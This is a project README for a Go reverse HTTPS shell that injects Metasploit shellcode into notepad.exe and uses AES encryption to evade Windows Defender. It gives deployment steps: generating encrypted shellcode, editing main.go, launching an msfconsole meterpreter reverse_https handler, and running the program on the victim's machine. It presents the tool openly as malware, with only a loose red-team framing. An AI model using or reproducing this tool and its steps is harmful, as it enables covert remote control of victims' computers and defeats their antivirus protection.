


# kaldrexx


### A simple HTTPS reverse shell malware implementation written in Go, evading Windows Defender detection via AES

### Previews

- It looks like `notepad.exe` has spawned, but the malicious script artifically generated via msfconsole got injected as `CreateRemoteThread` WINAPI function, even though Windows Defender's "real time protection" is activated.


- If the attacker(red team)'s server is connected to the victim, reversed HTTPS shell will provide shell interface to interact with victim's device, as long as shellcode-injected target process runs on the victim.

### Hands on
1. Prepare your Kali Linux or other available systems that can use `msfconsole`(metasploit console). 
2. Make sure that the victim and the attacker is connected.
3. Run `utility/createShellcode.sh` on the attacker's device to get AES key, AES IV(Initialize Vector), and encryped shell script
4. At `main.go`, replace the values of variables `maliciousShellcodeBytes`(Encrypted shell code. Decryption will be automatically perform), `aesKey`, and `aesInitialVector` to yours. Refer to the original `main.go`'s code.
5. Return to the attacker's msfconsole, and ready to receive the victim's reverse shell connection.
```
attacker@readteam-kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf exploit(handler) > set LHOST 0.0.0.0
msf exploit(handler) > set LPORT 443
msf exploit(handler) > exploit
```
6. Run the exploit code(`main.go`) at victim. (Either directly run `main.go` with `go run` command or execute the program after building work the same.)

### Q&A
- Why did you suddenly make this? - I was just curious.